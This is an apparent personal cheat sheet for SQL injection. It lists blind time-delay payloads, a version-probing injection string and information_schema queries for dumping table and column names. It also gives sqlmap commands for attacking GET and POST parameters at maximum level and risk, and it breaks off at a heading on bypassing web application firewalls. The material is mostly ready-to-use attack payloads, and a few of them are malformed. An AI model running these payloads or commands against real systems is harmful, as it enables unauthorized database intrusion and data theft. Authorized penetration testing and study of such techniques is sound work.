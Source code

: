 ### Blind sqlinjection

payload|
 WAITFOR DELAY '0:0:10'
 
 BENCHMARK() or sleep(10)


Getting the version of the database:

**payloads:** 
       
     ' and select substr(@@version,1,1)=4 --+  /*if the first caracter of the database version is 4, then the query will execute*/
     
    
## Exploiting the database
  
- Getting User defined Tables  
    
    SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'

- Getting Column Names  
    
    SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'

## SQLMap
source:
(features) https://github.com/sqlmapproject/sqlmap/wiki/Features

## SQLi GET requests

Source: https://security.stackexchange.com/questions/5869/testing-clean-urls-with-sqlmap

You should use * in your URI, creating URI injection point(s). So instead of using:

	sqlmap.py -u "website.com/script/paramrewrited1/paramrewrited2"
use:

	sqlmap.py -u "website.com/script/paramrewrited1*/paramrewrited2*"


## SQLi in POST requests

sqlmap -r file_with_request.txt --dbs --batch --level=3 --risk=3

informing the parameters to test:
sqlmap -r req.txt -p "source,username,password" --dbs


### using proxy to learning purposes

	sqlmap -r arq_with_request --proxy http://localhost:8080 --level 5 --risk 3 --threads 10
	
**obs: Os parâmetros enviados via JSON são automaticamente detectados e testados**

### Bypassing WAF with sqlmap
